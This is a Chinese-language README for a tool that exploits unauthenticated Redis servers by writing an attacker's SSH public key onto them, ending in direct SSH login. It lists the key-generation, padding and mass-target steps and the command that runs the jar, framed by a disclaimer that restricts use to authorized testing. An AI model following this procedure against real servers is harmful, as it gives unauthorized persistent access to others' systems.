


**Redis未授权SSH协议公钥写入漏洞验证**

**Code By:Tas9er**

警 告
本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点

授权测试用例:

将企业授权安全测试目标整理后放入url.txt

Example:
Ⅰ:建议攻击机使用Linux操作系统
Ⅱ:攻击机Linux执行:ssh-keygen -t rsa
Ⅲ:攻击机Linux执行:(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > fuck.txt
Ⅳ:将生成的fuck.txt里的数据拷贝到本工具目录下的key.txt
Ⅴ:攻击成功后可以直接在攻击机Linux里执行ssh ip

java -jar RedisSSHKey.jar

等待系统结束后,存在漏洞的网站以及结果会保存在当前目录下,同时也对企业服务器的安全设备的部署有一定的可用性检测。

